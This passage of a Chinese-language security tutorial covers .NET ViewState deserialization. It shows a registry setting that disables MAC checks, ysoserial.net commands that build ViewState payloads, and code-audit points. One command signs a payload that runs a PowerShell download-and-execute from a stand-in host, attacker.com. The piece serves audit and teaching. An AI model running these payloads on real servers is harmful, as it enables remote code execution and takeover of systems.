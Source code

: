 ```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFrame\v4.0.30319]"AspNetEnforceViewStateMac"=dword:00000000
```  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1sHNuecNQO8RSNibibibDc3VYfcDrhiagC4ZNoRZ5wZDnKsQN38bEYLl8mA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
注意：根据微软KB2905247说明，enableViewStateMac  
 在4.5.2及以后的版本已被**强制启用**  
，无法通过配置禁用。  
  
**02. 利用链构造使用**  
  
  
  
在MAC被禁用的情况下，攻击者可以使用 ysoserial.net  
 构造合法格式的ViewState payload：  
  
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f LosFormatter -c "echo hacked > C:\windows\temp\test.txt"
```  
  
  
生成的Base64字符串直接替换页面的 __VIEWSTATE  
 参数，即可在PostBack阶段被反序列化触发。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicduQVYicXuk7bex8G59Yxf1DvXnibhI3V2AUTAl7fK3YCibb8GfjluYc0a4Flyww50AL5J4VjArPiaNA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
**03. 代码审计关注点**  
  
  
#### 代码层注意是否使用了 EnableViewState = true 的控件；是否继承了可能触发 ViewState 加载的生命周期函数（如 LoadViewState, OnInit）；有无禁用 EventValidation 的逻辑。比如下面关键配置项：  
  
```
<pages enableViewStateMac="false"/><machineKey validationKey="..." validation="SHA1"/>
```  
  
#### 因为，目标应用配置了静态 machineKey，攻击者只需获取该密钥，就能签名合法payload：  
  
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -nop -c IEX(wget attacker.com)" \--generator=CA0B0334 --validationalg="SHA1"--validationkey="C551753B..."
```  
  
#### 如上，利用ysoserial带签名便可以生成payload，因此，.NET ViewState反序列化漏洞是配置、版本老旧与序列化共同作用下的高危组合。从攻击者视角看，它是一条成熟、稳定的攻击链。  
  
**04. 经典案例复现**  
  
  
  
ViewStateDecoder2.exe 是一个专门用于解析和分析 .NET ViewState 数据的工具，安全研究人员可以利用来查看其中存储的数据结构，检查是否存在用户数据泄露等，正常的解析数据如下图所示。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicuZMQ4ibNBgfGNpSQX8uWS0dAshJ6XFkPjy6mM7nn796vsXdLbiciaQ48YE8v5HXqjHML3gbib1Xs8Gw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
  